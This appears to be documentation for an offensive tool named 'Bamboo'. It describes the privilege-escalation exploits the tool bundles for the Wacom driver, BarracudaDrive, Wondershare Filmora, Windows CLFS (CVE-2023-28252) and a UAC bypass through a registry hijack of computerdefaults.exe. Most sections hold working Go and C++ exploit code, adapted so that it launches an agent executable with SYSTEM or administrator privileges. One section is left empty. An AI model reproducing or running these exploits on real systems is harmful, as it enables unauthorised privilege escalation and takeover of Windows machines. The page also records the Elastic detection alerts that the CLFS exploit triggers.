

# Exploits

## Overview

This section documents the exploits that come pre-loaded in Bamboo.

| Application / Service | Vulnerable Version(s) | CVE Identifier |
| --- | --- | --- |
| Wacom Driver | 6.3.45-1 | CVE-2023-32162 |
| BarracudaDrive | 6.5 | CVE-2020-23834 |
| Wondershare Filmora | 12.2.9.2233 and below | CVE-2023-31747 |
| Wondershare Dr. Fone | 12.3.14 | CVE-2021-44596 |
| Windows Common Log File System | Windows 11 21H2
Windows 11 22H2 | CVE-2023-28252 |
| UAC Bypass | - | - |

## Wacom Driver

### Description

Wacom specialises in pen displays and tablets for designers. These products require the Wacom Driver to be installed. [Luca Barile](https://github.com/LucaBarile/ZDI-CAN-16318) discovered several vulnerabilities, including one which allowed for Local Privilege Escalation (LPE). The exploit abuses various flaws in the design of the Wacom’s utilities, including especially the implementation of Remove.exe for the backup process. Full details can be found on Luca’s blog.

### Implementation

Majority of the original code from Luca’s LPE exploit was kept. However, the original exploit would launch a command prompt. In Bamboo, the exploit is modified to execute the agent.exe file which will be located on the user’s desktop. This is achieved by instead injecting a Wacom command to launch the agent.exe file as shown below.

```csharp
string input1_line1 = "/debug \\"" + pathInstallerDAT + "\\" /silent";
string input1_line2 = "[PrivilegeEscalation]";

string username = Environment.UserName;
string input1_line3 = @"Execute;1000;!WINDOWS!\\\\..\\\\Users\\\\" + username + @"\\\\Desktop\\\\agent.exe";
string input1_line4 = "DONE";
string input2_line1 = "/command PrivilegeEscalation /silent /debug \\"";
```

## BarracudaDrive

### Description

BarracudaDrive is a web-based file explorer that provides users with a convenient way to access and manage files on local machines or network-attached storage devices. This application features file sharing, file management, advanced server side scripting language and collaboration capabilities. The application’s vulnerability exploits weak and insecure folder permissions.

### Implementation

**Exploit Code**

The team constructed the exploit code and it is illustrated below:

```go
package main

import (
	"fmt"
	"os"
	"os/exec"
	"path/filepath"
	"io"
	"time"
)
func writeWondershare() {
	// Get current user name from environment var
	userProfile := os.Getenv("USERPROFILE")
	if userProfile == "" {
		fmt.Println("Failed to get user profile directory")
		return
	}
	username := filepath.Base(userProfile)

	//  opy the agent.exe file to C:\Users\[username]]\Desktop\bd.exe
	agentFilepath := "C:\\Users\\" + username + "\\Desktop\\agent.exe"
	wondershareFilepath := "C:\\bd\\bd.exe"
	
	agentFile, err := os.Open(agentFilepath)
	if err != nil {
		fmt.Printf("Error opening agent.exe: %v", err)
		return
	}
	defer agentFile.Close()

	wondershareFile, err := os.Create(wondershareFilepath)
	if err != nil {
		fmt.Printf("Error creating bd.exe: %v", err)
		return
	}
	defer wondershareFile.Close()

	_, err = io.Copy(wondershareFile, agentFile)
	if err != nil {
		fmt.Printf("Error copying agent.exe into bd.exe: %v", err)
		return
	}
}

// restart bd service
func restartbd() error {
	serviceName := "bd"
	fmt.Println("Stopping bd service...")
	cmd1 := exec.Command("sc", "stop", serviceName)
	err := cmd1.Run()
	if err != nil {
		fmt.Println(err)
	}

	// wait for service to stop till we call writeWondershare()
	fmt.Println("Waiting for 30 seconds...")
	time.Sleep(30 * time.Second)
	writeWondershare()

	fmt.Println("Starting bd service...")
	cmd2 := exec.Command("sc", "start", serviceName)
	err = cmd2.Run()
	if err != nil {
		fmt.Println(err)
	}
	return nil
}	

func main() {
	restartbd()
	fmt.Printf("Exploit complete")
}
```

The program stops the application’s service, copies the content of Bamboo’s agent executable into C:\bd\bd.exe and starts the service again after 30 seconds.

**Creation of Manifest File**

In order to execute the Service Control (sc) utility to restart the service, administrative privileges are required. To overcome this, a manifest file was needs to be embedded into the executable. The manifest file (bd.manifest.exe) is first created with the following content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<assembly xmlns="urn:schemas-microsoft-com:asm.v1" manifestVersion="1.0">
    <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
        <security>
            <requestedPrivileges>
                <requestedExecutionLevel level="requireAdministrator" uiAccess="false"/>
            </requestedPrivileges>
        </security>
    </trustInfo>
</assembly>
```

In the manifest file, the `requestedExecutionLevel` was specified as `requireAdministrator`. This configuration informs Windows OS that the application necessitates elevated privileges to function correctly. This manifest file is then converted into a .syso file using the [rsrc](https://github.com/akavel/rsrc) tool by akavel.

```powershell
.\rsrc -manifest bd.exe.manifest -o bd.syso
```

Lastly, build the exploit with `go build` . The Go compiler will detect the .syso file and embed it in the final executable.

## Wondershare Filmora

### Description

Filmora is a video editor by Wondershare. The specific vulnerable component is NativePush (Build 1.0.0.7), which contains an unquoted service path. The unquoted service path allows attackers to execute their own file in place of the actual service file, allowing it to be executed with SYSTEM privileges when the service is run. Running the service requires administrator privileges. The vulnerability was authored by [Thurein Soe](https://www.exploit-db.com/exploits/51483).

### Implementation

**Exploit Code**

The exploit for Filmora was written by the team in Golang:

```go
package main

import (
	"fmt"
	"os"
	"os/exec"
	"path/filepath"
	"io"
)

// Restart NativePushService
func restartNativePushService() error {
	serviceName := "NativePushService"
	cmd1 := exec.Command("sc", "stop", serviceName)
	err := cmd1.Run()
	if err != nil {
		fmt.Println(err)
	}
	cmd2 := exec.Command("sc", "start", serviceName)
	err = cmd2.Run()
	if err != nil {
		fmt.Println(err)
	}
	return nil
}	

func writeWondershare() {
	// Get current user name from environment var
	userProfile := os.Getenv("USERPROFILE")
	if userProfile == "" {
		fmt.Println("Failed to get user profile directory")
		return
	}
	username := filepath.Base(userProfile)

	// Copy the agent.exe file to C:\Users\[username]]\Desktop\Wondershare.exe
	agentFilepath := "C:\\Users\\" + username + "\\Desktop\\agent.exe"
	wondershareFilepath := "C:\\Users\\" + username + "\\AppData\\Local\\Wondershare\\Wondershare.exe"
	
	agentFile, err := os.Open(agentFilepath)
	if err != nil {
		fmt.Printf("Error opening agent.exe: %v", err)
		return
	}
	defer agentFile.Close()

	wondershareFile, err := os.Create(wondershareFilepath)
	if err != nil {
		fmt.Printf("Error creating wondershare.exe: %v", err)
		return
	}
	defer wondershareFile.Close()

	_, err = io.Copy(wondershareFile, agentFile)
	if err != nil {
		fmt.Printf("Error copying agent.exe into wondershare.exe: %v", err)
		return
	}
}

func main() {
	// Write the Wondershare.exe file
	writeWondershare()

	// Restart NativePushService
	err := restartNativePushService()
	if err != nil {
		fmt.Println(err)
		return
	}

	fmt.Printf("Exploit complete")
}

```

In summary, this creates the agent.exe file in the unquoted service path, then restarts the NativePushService, causing the agent.exe file to be executed with SYSTEM integrity context. 

**Creation of Manifest File**

Similarly to the BarracudaDrive exploit above, administrator privileges are needed to use the Service Control Utility (sc.exe) to restart the service. This means the exploit file must be run with administrative privileges. To achieve this, a manifest file (filmora.exe.manifest) must be embedded which specifies the `requestExecutionLevel` as `requireAdministrator` . The manifest file is shown below.

```go
<?xml version="1.0" encoding="UTF-8"?>
<assembly xmlns="urn:schemas-microsoft-com:asm.v1" manifestVersion="1.0">
    <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
        <security>
            <requestedPrivileges>
                <requestedExecutionLevel level="requireAdministrator" uiAccess="false"/>
            </requestedPrivileges>
        </security>
    </trustInfo>
</assembly>
```

Afterwards, the manifest file is generated into a .syso file using [rsrc](https://github.com/akavel/rsrc) by akavel

```powershell
.\rsrc -manifest filmora.exe.manifest -o filmora.syso
```

Finally, the exploit is built with `go build` . Go detects the .syso file upon compilation and embed the file into the final executable.

## Wondershare Dr. Fone

### Description

### Implementation

## Windows Common Log File System

### Description

The Windows Common Log File System (CLFS) is a high performing, general-purpose logging system that helps applications keep track of important events and recover from failures. It was discovered that a vulnerability exists due to an out of bound read and write flaw, leading to the execution of arbitrary code. The specific Windows 11 builds affected by this vulnerability are:

The specific Windows 11 builds affected by this vulnerability are:

- Windows 11 22H1 (fixed in version 10.0.22000.1817)
- Windows 11 22H2 (fixed in version 10.0.22621.1555)

### Implementation

The [original PoC](https://github.com/fortra/CVE-2023-28252) was developed by [Fortra](https://www.fortra.com/), a company that provides cybersecurity and automation solutions (www.fortra.com, n.d.). The execution of the original PoC requires three parameters: token offset, flag and the program to be executed. For instance, if the team wishes to elevate calc.exe to SYSTEM privileges, the command will be clfs_eop.exe 1208 1 calc.exe. Our team has modified the original PoC to automatically launch the agent executable with SYSTEM privileges. All credit goes to the original author, Fotra for discovering this vulnerability and creating the original PoC exploit.

**Hardcoded Values**

The code snippet shown below pertains to the manage_args function within clfs_eop.cpp. The team hardcoded the values of the token offset and flag to 1208 and 1 respectively. This eliminates the need for user input to these parameters. Setting these parameters directly in the code simplifies the execution process and ensures that the program being launched always has SYSTEM privileges.

```cpp
void manage_args(int argc, TCHAR* argv[]) {
	
      // hardcoded values
	argv[1] = (TCHAR*)"1208";
	argv[2] = (TCHAR*)"1";

	token_offset = atoi((CHAR*)argv[1]);
	if (token_offset == 0) {
		printf("[+] Invalid token offset argument, must be decimal number\n");
		exit(1);
	}

	flag = atoi((CHAR*)argv[2]);
	if (flag == 0) {
		printf("[+] Invalid token offset argument, must be decimal number\n");
		exit(1);
	}

	printf("\n\nARGUMENTS\n");
	printf("[+] TOKEN OFFSET %x\n", token_offset);
	printf("[+] FLAG %x\n\n", flag);
	return;
}

```

**Declare Global Variable for Current Username**

The code snippet shown below declares a global variable within clfs_eop.cpp. The function, getCurrentUsername retrieves the current username of the user and stores it in the global variable, currentUsername. It returns true on success and false on failure. This will be used in the to_trigger function which will be exhibited in the next code snippet.

```cpp
// global variable currentUsername
TCHAR currentUsername[500]; 
// function to retrieve current user's username bool getCurrentUsername() { 
  DWORD size = sizeof(currentUsername) / sizeof(currentUsername[0]); 

  if (GetUserName(currentUsername, &size)) { 		
     // ensures null-termination 		
     currentUsername[size] = '\0'; 
     std::wcout << L"CURRENT USER=" << currentUsername << std::endl; 
     return true; 

  } else { 
     std::cerr << "Error: " << GetLastError() << std::endl; 
     return false; 
    }
}

```

**Modify to_trigger()**

The code snippet shown below pertains to the to_trigger function within clfs_eop.cpp. In the original code, the program it executes is notepad.exe by default. Instead of launching notepad.exe, the team modified it to launch the agent executable located in the user’s directory and the team used the global variable declared in the previous code snippet and parsed it in the %s to complete the full file path. 

```cpp
 TCHAR agentPath[1000]; 		

// launch agent.exe within the current user's directory 		_stprintf_s(agentPath,_T("C:\\Users\\%s\\Desktop\\agent.exe"), currentUsername); 		 

// check if we became SYSTEM 		 
if (_tcscmp(username, _T("SYSTEM")) == 0) { 
  printf("WE ARE SYSTEM\n"); 			
  TCHAR fpath[1000]; 
			
  _stprintf_s(fpath, _T("%s"), agentPath);
  _tprintf(_T("Executing: %s\n"), fpath); 	
  _tsystem(fpath); 		
} else { 			
  printf("NOT SYSTEM\n"); 		
}

```

The getCurrentUsername function has also been called in the first line of the main function as follows:

```cpp
int main(int argc, TCHAR* argv[]) { 	
  getCurrentUsername(); 	
  manage_args(argc, argv); 	
  getVirtualAddress(); 	
  InitEnvironment(); 	
  doFirstAlloc(); 	
  createInitialLogFile(); 	
  fun_prepare(); 	
  to_trigger(); 	
  exit(1); 	
  return 0; 
}
```

With this modification, it elevates our team’s agent executable to SYSTEM privileges when it is being launched. The CLFS exploit, both original and modified, triggers two **Malware Detection Alert** in Elastic. The description of the two alerts are:

- File event with process explorer.exe, parent process userinit.exe, file clfs_eop.exe
- Process event with exploit.exe, parent process cmd.exe, file clfs_eop.exe

This indicates that Elastic statically detects the exploit when it is first dropped onto the local machine’s disk and again when executed.

## UAC Bypass

This is not an exploit, but is used in conjunction with certain exploits such as Filmora and BarracudaDrive.

### Description

UAC is a security feature in Windows which requires applications to prompt for consent before an administrative task can be performed. This prevents malicious applications from running on your Windows device. The left image shows an example of a normal user receiving a UAC prompt, while the right image shows an example of an administrative user receiving a UAC prompt. A normal user requires an administrators login credentials while an administrative user just has a “Yes” and “No” consent box.




For more information on UAC, see [this article](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) from Microsoft. 

A UAC Bypass ONLY works if the current user is in the administrators group. It allows an application to bypass the consent prompt and run with administrator privileges. There are various methods to achieve a UAC Bypass as shown by [HackTricks](https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs/uac-user-account-control). In Bamboo, the UAC Bypass is achieved by modifying registry keys for the Windows computerdefaults.exe utility.

### Implementation

The UAC Bypass script was written by the team in Golang:

```go
package main

import (
	"fmt"
	"golang.org/x/sys/windows/registry"
	"os/exec"
	"os"
	"path/filepath"
)

func main() {

	// Get current user name from environment var and determine location of payload to execute as admin
	userProfile := os.Getenv("USERPROFILE")
	if userProfile == "" {
		fmt.Println("Failed to get user profile directory")
		return
	}
	username := filepath.Base(userProfile)
	payloadLocation := "C:\\Users\\" + username + "\\Desktop\\payload.exe"
	fmt.Printf("Payload location set as %v\n", payloadLocation)

	// Modify registry keys
	keyPath := `Software\Classes\ms-settings\Shell\Open\command`
	if err := setRegistryValue(registry.CURRENT_USER, keyPath, "DelegateExecute", ""); err != nil {
		fmt.Printf("Error setting registry value: %v\n", err)
		return
	}
	fmt.Printf("Successfully set registry value: HKCU\\%s\\DelegateExecute\n", keyPath)

	if err := setRegistryValue(registry.CURRENT_USER, keyPath, "", payloadLocation); err != nil {
		fmt.Printf("Error setting registry value: %v\n", err)
		return
	}
	fmt.Printf("Successfully set registry value: HKCU\\%s (Default)\n", keyPath)

	// Launch computerdefaults.exe
	cmd := exec.Command("cmd", "/C", "start computerdefaults.exe")
	err := cmd.Start()
	if err != nil {
		fmt.Printf("Error starting computerdefaults.exe: %v\n", err)
		return
	}
	fmt.Println("Successfully started computerdefaults.exe")
}

// Function to set a registry value
func setRegistryValue(root registry.Key, keyPath, valueName, value string) error {
	k, _, err := registry.CreateKey(root, keyPath, registry.SET_VALUE)
	if err != nil {
		return fmt.Errorf("error creating or opening registry key: %v", err)
	}
	defer k.Close()

	if err := k.SetStringValue(valueName, value); err != nil {
		return fmt.Errorf("error setting registry value: %v", err)
	}

	return nil
}
```

In summary, it creates 2 registry keys and launches the computerdefaults.exe process. This works because when computerdefaults.exe is launched, it looks for the registry key HKCU\Software\Classes\ms-settings\shell\open\command which by default does not exist. If the key exists, it looks for the value HKCU\Software\Classes\ms-settings\shell\open\command\DelegateExecute. If this value is found, computerdefaults.exe will look for the default value in HKCU\Software\Classes\ms-settings\shell\open\command\. computerdefaults.exe follows the command found at the value in HKCU\Software\Classes\ms-settings\shell\open\command\ when it starts. Thus, the team has directed it to launch our exploit which will always be dropped as “payload.exe” in the user’s Desktop.